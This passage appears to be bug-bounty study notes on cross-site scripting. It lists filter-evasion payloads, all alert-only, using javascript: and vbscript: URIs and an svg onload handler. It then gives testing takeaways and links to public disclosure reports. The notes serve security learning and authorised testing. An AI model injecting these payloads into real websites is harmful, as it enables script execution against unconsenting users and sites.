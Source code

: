 ### INPUT Image
```js
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
```
### BODY Image
```js
<BODY BACKGROUND="javascript:alert('XSS')">
```
### IMG Dynsrc
```js
<IMG DYNSRC="javascript:alert('XSS')">
```
### IMG Lowsrc
```js
<IMG LOWSRC="javascript:alert('XSS')">
```
### VBscript in an Image
```js
<IMG SRC='vbscript:msgbox("XSS")'>
```
### SVG Object Tag
```js
<svg/onload=alert('XSS')>
```
 > More bypasses here : https://owasp.org/www-community/xss-filter-evasion-cheatsheet
---
## Takeaways    
- XSS payloads don’t always execute immediately after they’re submitted. Because a payload could be used in multiple locations on a site, be sure to visit each location.
- When sites sanitize user input by modifying it instead of encoding or escaping values, you should continue testing the site’s Server-Side logic. Think about how a developer might have coded their solution and what assump- tions they’ve made. For example, check whether the developer considered what happens if two src attributes are submitted or if spaces are replaced with slashes.
- Always be on the lookout for URL parameters that might be reflected on the page because you have control over those values. If you find any URL parameters that are rendered on a page, consider their context as well. URL parameters might present opportunities to get around filters that remove special characters.

## Reports:
- [**https://hackerone.com/reports/106293/**](https://hackerone.com/reports/106293/)
- [**https://hackerone.com/reports/104359/**](https://hackerone.com/reports/104359/)
- [**https://klikki.fi/adv/yahoo.html**](https://klikki.fi/adv/yahoo.html) [worth reading again in book]
- [**https://mahmoudsec.blogspot.com/2015/09/how-i-found-xss-vulnerability-in-google.html**](https://mahmoudsec.blogspot.com/2015/09/how-i-found-xss-vulnerability-in-google.html)
 - [**https://blog.it-securityguard.com/bugbounty-the-5000-google-xss/**](https://blog.it-securityguard.com/bugbounty-the-5000-google-xss/)
 - [**http://strukt93.blogspot.com/2016/07/united-to-xss-united.html**](http://strukt93.blogspot.com/2016/07/united-to-xss-united.html)
